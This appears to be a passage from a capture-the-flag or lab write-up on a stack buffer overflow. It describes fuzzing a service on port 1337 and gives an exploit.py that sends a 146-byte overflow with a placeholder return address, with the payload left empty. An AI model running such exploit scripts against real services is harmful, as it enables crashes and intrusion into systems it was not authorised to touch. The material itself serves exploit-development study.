 The fuzzer didn't work as well as it did with other BOF problems. It kept sending bytes even after the program crashed so I had to manually watch when it crashed, which happened around a payload size of 150 bytes.

```
python fuzzer.py $VICTIM 1337
```

<figure><img src="../../.gitbook/assets/image (62) (1) (1).png" alt=""><figcaption></figcaption></figure>

**exploit.py**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = ""
	offset = 146
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = ""
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```
